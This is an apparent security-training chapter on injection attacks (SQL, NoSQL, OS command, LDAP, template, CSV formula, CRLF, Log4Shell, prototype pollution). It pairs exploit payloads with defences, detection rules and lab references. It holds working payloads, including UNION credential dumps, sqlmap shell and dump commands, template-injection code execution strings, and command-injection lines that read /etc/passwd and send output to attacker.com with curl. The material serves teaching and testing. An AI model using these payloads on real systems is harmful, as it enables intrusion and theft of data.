

# 💉 Injection Attacks

> Every injection vulnerability has the same root cause: data that should have been treated as data was instead interpreted as code. The class is 30 years old and it's still in the OWASP Top 3 — because new query languages keep being invented and old habits never die.

!!! danger "Authorization is required"
    Every payload, tool, and technique on this page must be used **only** against systems you own or are explicitly authorized to test. Running these against random web apps is a federal crime under the CFAA in the US and the IT Act 2000 in India. Practice in the labs we recommend (DVWA, Juice Shop, PortSwigger Web Security Academy, HackTheBox).

---

## 1. The Injection Family Tree



The countermeasure is always the same shape: **separate code from data**. Parameterized queries for SQL, escape APIs for OS commands, allowlists for headers. We'll cover the *exploit* perspective; the **defensive** view (parameterization, ORMs, sandboxing) is in Phase 5.

---

## 2. SQL Injection (SQLi)

The classic. SQL syntax allows the database to interpret single quotes, comments, semicolons, and keywords like `UNION` or `OR` as part of the query rather than the data.

### 2.1 Detection

Send these in every parameter and watch the response:

| Probe | Telltale |
|---|---|
| `'` | Database error, broken HTML, 500 |
| `''` | Same response as no quote (paired-quotes "fixed" the injection) |
| `' OR 1=1--` | Returns extra rows / login bypass |
| `' OR 1=2--` | Returns no rows |
| `1' AND SLEEP(5)--` | Response delayed by 5s (time-based blind) |
| `1' WAITFOR DELAY '0:0:5'--` | MSSQL time-based |
| `1' AND pg_sleep(5)--` | PostgreSQL |
| `1)` then `1)) ` | Bracket-balanced injections |

### 2.2 Attack types

**1. Error-based** — the database error reveals query structure (and often data).

```sql
1 AND extractvalue(1, concat(0x7e, (SELECT version())))   # MySQL <= 5.7
```

**2. UNION-based** — append your own SELECT:

```sql
' UNION SELECT NULL,NULL,NULL--           # find column count
' UNION SELECT 1,2,3--                    # find which columns reflect to UI
' UNION SELECT username,password,3 FROM users--
```

**3. Boolean-blind** — no error, no data, but the page differs based on truth.

```sql
' AND SUBSTRING(password,1,1)='a'--       # if true, page renders normally
```

**4. Time-blind** — no visible difference; use `SLEEP()` to leak data bit-by-bit.

```sql
' AND IF(SUBSTRING(password,1,1)='a', SLEEP(2), 0)--
```

**5. Out-of-band** — make the DB connect out (DNS/HTTP) to your collaborator:

```sql
' UNION SELECT LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\a'))--
```

We ship `scripts/web/sqli_detector.py` — a careful *detector* (not a full exploiter) that fires safe probes and reports likely-vulnerable parameters.

### 2.3 Database-specific cheat sheet

| Database | Comment | String concat | Version | Sleep |
|---|---|---|---|---|
| MySQL | `--` `#` `/* */` | `CONCAT(a,b)` | `@@version` | `SLEEP(n)` |
| PostgreSQL | `--` `/* */` | `a \|\| b` | `version()` | `pg_sleep(n)` |
| MSSQL | `--` `/* */` | `a + b` | `@@version` | `WAITFOR DELAY '0:0:n'` |
| SQLite | `--` `/* */` | `a \|\| b` | `sqlite_version()` | (no sleep — use heavy CTE) |
| Oracle | `--` | `a \|\| b` | `(SELECT banner FROM v$version)` | `dbms_lock.sleep(n)` |

### 2.4 sqlmap — the workhorse

```bash
# Basic detection
sqlmap -u "https://target.com/page?id=1" --batch

# Authenticated (paste your full request to a file via Burp → Save Item)
sqlmap -r request.txt --batch --dbs

# With cookies + parameter to test
sqlmap -u "https://target.com/page" --cookie="session=..." --data="id=1&name=foo" -p id

# Dump a table
sqlmap -r request.txt -D appdb -T users --dump

# Tamper scripts to bypass WAFs
sqlmap -r req.txt --tamper=between,space2comment,charencode

# OS shell when SUPER privileges allow
sqlmap -r req.txt --os-shell
```

sqlmap is ridiculously powerful and **noisy**. In real engagements:
- Use `--batch` to skip prompts.
- Use `--threads 1` initially (don't blast a prod DB).
- Limit scope with `-p` to specific parameters.
- Read what it does before running `--os-shell` — that's database server compromise.

### 2.5 Defensive — parameterized queries

```python
# WRONG — string concat → SQLi
cursor.execute(f"SELECT * FROM users WHERE name = '{name}'")

# RIGHT — parameterized
cursor.execute("SELECT * FROM users WHERE name = %s", (name,))
```

Every modern DB driver supports it. ORMs (SQLAlchemy, Django ORM, Prisma, Sequelize) parameterize by default — but raw SQL escape hatches still bite.

---

## 3. NoSQL Injection

MongoDB, CouchDB, etc. The query "language" is JSON, not SQL — so the payloads look different.

### 3.1 MongoDB

```http
POST /login
Content-Type: application/json
{"username":"admin","password":{"$gt":""}}     # match anything
{"username":{"$regex":"^a"},"password":{"$gt":""}}
```

In URL form (`application/x-www-form-urlencoded`):

```http
username=admin&password[$gt]=
```

PHP and Node.js are particularly susceptible because they accept nested arrays from query strings by default.

### 3.2 Server-side JS injection (in MongoDB `$where`)

```javascript
// In a vulnerable Node.js+Mongo app
db.users.find({ $where: "this.user == '" + req.body.user + "'" })

// Payload:
'; sleep(5000); var x='
```

Now you have JS execution in the DB layer. Modern MongoDB versions disable `$where` by default — but legacy code still runs it.

### 3.3 Detection probes

```text
'   "                                  # syntax error
{"$ne": null}                          # operator injection
[$ne]=null
[$gt]=
[$regex]=^a
'; return true; var x='                # SSJS injection
```

### 3.4 Tools

```bash
# NoSQLMap — sqlmap for NoSQL
nosqlmap

# Burp + manual
```

---

## 4. OS Command Injection

Server passes user input to a shell. Classic, devastating.

### 4.1 Vulnerable patterns

```python
# DON'T DO THIS, EVER
os.system(f"ping -c 1 {host}")
subprocess.run(f"convert {filename} out.png", shell=True)
```

The shell metachars `; & | && || $() \` `<` `>` are weapons.

### 4.2 Payloads

```bash
1.1.1.1; cat /etc/passwd
1.1.1.1 && cat /etc/passwd
1.1.1.1 | id
1.1.1.1 || id                          # if first command fails
$(cat /etc/passwd)
`cat /etc/passwd`
1.1.1.1`id`
```

### 4.3 Blind command injection

When output isn't reflected, use **time-based** or **out-of-band**:

```bash
1.1.1.1; sleep 5
1.1.1.1; nslookup attacker.collaborator.net
1.1.1.1; curl https://attacker.com/?$(whoami)
```

Burp Collaborator (Pro) or `interactsh` (free, self-hostable) listens for the callback and confirms execution.

### 4.4 Filter bypasses

| Filter | Bypass |
|---|---|
| Block `;` `&` `\|` | `%0a` (newline), backticks, `$()` |
| Block spaces | `${IFS}`, `<` (input redirect), brace expansion `{cmd,arg}` |
| Block `cat` | `c\at`, `'c''at'`, `/bin/cat`, `tac` |
| Block `/` | `${PATH:0:1}etc${PATH:0:1}passwd` |

### 4.5 Defensive

- **Never** call shells with user input. Use `subprocess.run([...args], shell=False)`.
- If you must concat, validate against a strict allowlist (`^[a-zA-Z0-9._-]+$`).
- Run the worker with the lowest possible privileges.

---

## 5. LDAP Injection

LDAP filters use a parenthesized syntax: `(&(uid=alice)(password=secret))`. User input that ends up inside that filter unescaped is exploitable.

### 5.1 Login bypass

A vulnerable bind:

```text
(&(uid=USERINPUT)(password=PASSINPUT))
```

Inputs:

```text
uid: alice)(uid=*
password: x
```

Final filter: `(&(uid=alice)(uid=*))(password=x))` → matches alice and ignores password.

### 5.2 Boolean-blind extraction

Like SQLi-blind:

```text
*)(uid=admin)(|(uid=*               # is there a user 'admin'?
*)(uid=admin)(userPassword=a*       # leak first char
```

### 5.3 Defensive — escape these characters

`( ) * \ NUL`. Most LDAP libraries provide `escape_filter_chars()`.

---

## 6. SSTI — Server-Side Template Injection

Modern apps render templates server-side (Jinja2, Twig, Freemarker, Velocity, ERB, Thymeleaf). When user input is rendered as part of the *template*, not as a *variable*, the entire engine becomes a sandbox-escape playground — often → RCE.

### 6.1 Detection

Insert template-syntax markers:

| Engine | Probe | If renders |
|---|---|---|
| Jinja2 / Twig | `{{7*7}}` | `49` |
| ERB | `<%= 7*7 %>` | `49` |
| Velocity | `#set($x=7*7)$x` | `49` |
| Freemarker | `${7*7}` | `49` |
| Smarty | `{$smarty.version}` | version string |

A polyglot probe:

```text
${{<%[%'"}}%\
```

If something breaks, you're in template land.

### 6.2 Jinja2 → RCE

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}                 # list classes
{{ ''.__class__.__mro__[1].__subclasses__()[80].__init__.__globals__['os'].popen('id').read() }}
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

The exact subclass index varies by Python version; you have to enumerate.

### 6.3 Freemarker → RCE

```text
<#assign x="freemarker.template.utility.Execute"?new()>${x("id")}
```

### 6.4 Smarty → RCE

```text
{system('id')}
```

### 6.5 Defensive

- Never render user input as a template. Always pass as a variable: `render(template, name=user_input)`.
- Use sandboxed renderers (`SandboxedEnvironment` in Jinja2) — but understand they've been bypassed historically.
- Strip `{{ }}`, `${ }`, `<% %>` from any user-controllable field that ends up rendered.

---

## 7. CSV / Formula Injection

Niche but consequential. If your app exports user-controlled fields to CSV/XLSX, attackers inject Excel formulas:

```text
=cmd|' /C calc'!A0
=HYPERLINK("https://evil.com?d="&A1, "Click")
@SUM(1+1)*cmd|' /C calc'!A0
```

When a victim opens the CSV in Excel/LibreOffice, formulas execute.

Defenses: prefix any user-controlled field with `'` before export.

---

## 8. Header / CRLF Injection

If user input ends up in HTTP response headers (e.g., `Location:` after redirect), and `\r\n` isn't filtered:

```text
?next=somepath%0d%0aSet-Cookie:%20admin=1
```

Now the response includes an attacker-set cookie. Modern frameworks block `\r\n` in headers, but homemade redirect handlers still get this wrong.

---

## 9. Log4Shell-Style Lookups

Log4j 2.x evaluated `${jndi:ldap://...}` strings *anywhere* a log line was constructed — including in user-controlled inputs (User-Agent, Referer, X-Forwarded-For). One log line could fetch and execute remote code.

Detect by injecting `${jndi:ldap://attacker.collaborator.net/x}` in every header and body field; watch your collaborator for callbacks. Many forks of this still exist (Spring4Shell, etc.).

---

## 10. Prototype Pollution (JS)

JavaScript-specific: assigning to an object's `__proto__` pollutes `Object.prototype` for every object in the program.

```javascript
// vulnerable merge
function merge(target, source) {
  for (let k in source) {
    if (typeof source[k] === 'object') merge(target[k] = target[k] || {}, source[k]);
    else target[k] = source[k];
  }
}
merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'));
console.log({}.isAdmin);   // true
```

Reaches RCE via gadgets in Express, Lodash, Mongoose. The lab on PortSwigger's Web Security Academy is the best intro.

---

## 11. Hands-On Lab

PortSwigger's **Web Security Academy** (web-security-academy.net) has the canonical labs:

1. SQL injection — work through every lab, ~25 of them.
2. NoSQL injection.
3. OS command injection.
4. SSTI — labs cover Twig, Jinja2, Freemarker, Velocity, Handlebars, Pug.
5. Prototype pollution.

Time: ~30–40 hours over 4 weeks. The labs are **free** and they will make you fluent.

Then graduate to:
- HackTheBox web boxes (FreeLancer, BountyHunter, Stacked, etc.)
- TryHackMe rooms (SQLMap, Vulnversity, OWASP Top 10)
- Bug-bounty programs in scope (HackerOne, Bugcrowd)

---

## 12. Detection (Blue-Team View)

| Pattern | Where to alert |
|---|---|
| `' OR '1'='1` and variants | WAF / app logs |
| `UNION SELECT` | App logs |
| `${jndi:` | Any log field |
| `;` `\|` `&&` `&` in fields not expecting shell metas | App logs |
| Time-based-blind: requests taking >5s for endpoints normally <100ms | APM / response-time monitoring |
| OOB DNS/HTTP from app servers | DNS logs, egress monitoring |
| Hundreds of subtle variations of one parameter from one source | WAF anomaly model |

ModSecurity/CRS, AWS WAF Managed Rules, Cloudflare's Managed Rules all catch the obvious payloads. **Defense in depth** — your *app* must still be secure.

---

## 13. Interview Questions

- Walk through identifying and exploiting a blind boolean-based SQLi.
- Why isn't escaping single quotes a real fix for SQLi?
- What's the difference between SQLi and SSTI from a remediation standpoint?
- How does sqlmap detect a SQLi?
- Why are NoSQL operators like `$gt` dangerous when accepted in JSON bodies?
- What defenses prevent OS command injection?
- What's the difference between `eval()` injection and SSTI?

---

## 14. Tools Quick Reference

| Class | Tools |
|---|---|
| SQLi detection / exploit | `sqlmap`, Burp Pro Scanner, `ghauri`, manual |
| NoSQLi | `nosqlmap`, manual |
| Cmd injection | Burp Collaborator + manual; `commix` |
| SSTI | `tplmap`, manual |
| LDAP | manual + LDAP injection wordlists from SecLists |
| Detection | Burp Param Miner, Active Scan++, Backslash Powered Scanner |
| OOB | Burp Collaborator, `interactsh`, ngrok, custom DNS |

---

## 15. Further Reading

- PortSwigger's **Web Security Academy** — every topic above has 5–25 free labs
- *The Web Application Hacker's Handbook* — chapters 9–10
- HackTricks — `book.hacktricks.wiki/en/pentesting-web/`
- PayloadsAllTheThings — github.com/swisskyrepo/PayloadsAllTheThings
- *Bug Bounty Bootcamp*, Vickie Li
- The official sqlmap wiki

---

[← Web Methodology](web-methodology.md) · [XSS, CSRF & SSRF →](web-xss-csrf-ssrf.md)
